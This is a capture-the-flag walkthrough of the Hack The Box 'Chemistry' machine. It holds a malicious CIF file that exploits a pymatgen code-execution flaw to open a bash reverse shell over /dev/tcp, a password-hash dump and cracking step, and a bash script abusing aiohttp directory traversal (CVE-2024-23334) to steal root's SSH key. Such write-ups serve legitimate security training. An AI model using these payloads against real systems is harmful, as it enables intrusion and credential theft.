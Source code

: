 ```yaml
---
title: Chemistry - Hack The Box
date: 2024-10-24
---
```


# Chemistry

![Chemistry - info card](/ctf/hack-the-box/machines/chemistry/info-card.png)

## Enumeration

### Nmap

We start by running an Nmap scan to enumerate the open ports and services on the target:

```bash
nmap -A -T4 -p- 10.10.11.38
```

```bash
Nmap scan report for 10.10.11.38
Host is up (0.025s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  http    Werkzeug httpd 3.0.3 (Python 3.9.5)
|_http-title: Chemistry - Home
|_http-server-header: Werkzeug/3.0.3 Python/3.9.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the results, we identified two open ports:

- Port 22: SSH
- Port 5000: HTTP (running Werkzeug)

### Exploring HTTP - Port 5000

Upon visiting the website on port 5000, we see that it's a **Chemistry CIF Analyzer** that allows uploading and
analyzing **CIF** (Crystallographic Information File) files.

![Chemistry - Home](/ctf/hack-the-box/machines/chemistry/home-page.png)

After registering and logging in, we land on the dashboard, where users can upload CIF files for analysis.

![Chemistry - Dashboard](/ctf/hack-the-box/machines/chemistry/dashboard-page.png)

The website provides a sample CIF file:

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

### Vulnerability Research

Researching the web, we came across
a [vulnerability report](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f) related
to the **pymatgen** library used by the application. This vulnerability allows **arbitrary code** execution by
manipulating CIF files.

## Exploitation

### Reverse Shell Payload

We exploit the **pymatgen** vulnerability by crafting a CIF file that triggers a reverse shell.

Here’s the payload:

```cif
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/<ip>/4444 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

```

::: info
Make sure to replace `<ip>` with your IP address and listen on port **4444** using `nc -lvnp 4444`.
:::

### Gaining Access

After uploading the payload, we receive a reverse shell. In the `instance` directory, we find a **sqlite database file**.

We can inspect the database with the following commands:

```bash
sqlite3 database.db
SELECT * FROM user;
```

This reveals a list of users and password hashes:

```bash
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
...
```

### User Flag

We find the user rosa in the /home directory. To access her account, we crack her password hash
using [CrackStation](https://crackstation.net/).

![CrackStation - Password Cracker](/ctf/hack-the-box/machines/chemistry/crackstation.png)

::: info
We can also use `hashcat` or `john` to crack the password hash.
:::

Once the password is cracked, we can log in via SSH:

```bash
ssh rosa@10.10.11.38
rosa@chemistry:~$ cat user.txt
[user-flag]
```

## Privilege Escalation

### Local Enumeration

Running `(netstat -punta || ss --ntpu)` reveals that **port 8080** is open locally.

```bash{2}
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
```

The root user is running a **monitoring_site** Python script:

```bash
/usr/bin/python3.9 /opt/monitoring_site/app.py
```

### Accessing the Internal Web Application

To view the web application running on port 8080, we use SSH port forwarding:

```bash
ssh -L 8080:127.0.0.1:8080 rosa@10.10.11.38
```

We then visit `http://localhost:8080` and use `whatweb` to identify the technology stack:

```plaintext
http://localhost:8080 [200 OK] HTML5, HTTPServer[Python/3.9 aiohttp/3.9.1], JQuery[3.6.0], Script, Title[Site Monitoring]
```

### Exploit (CVE-2024-23334)

We found that **aiohttp version 3.9.1** is vulnerable
to [CVE-2024-23334](https://github.com/z3rObyte/CVE-2024-23334-PoC), which allows directory traversal attacks. We can
use this exploit to access the root private key:

```bash
#!/bin/bash

url="http://localhost:8080"
payload="/assets/"
file="root/.ssh/id_rsa"

for ((i=0; i<15; i++)); do
    payload+="../"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"

    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

### Root flag

After retrieving the root private key, we log in as root:

```bash
ssh -i id_rsa root@10.10.11.38
root@chemistry:~# cat root.txt
[root-flag]
```

![Chemistry - pwned](/ctf/hack-the-box/machines/chemistry/pwned.png)

## References

- [GitHub - pymatgen vulnerability](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)
- [CrackStation](https://crackstation.net/)
- [HackTrick - Open ports](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports)
- [CVE-2024-23334](https://github.com/z3rObyte/CVE-2024-23334-PoC)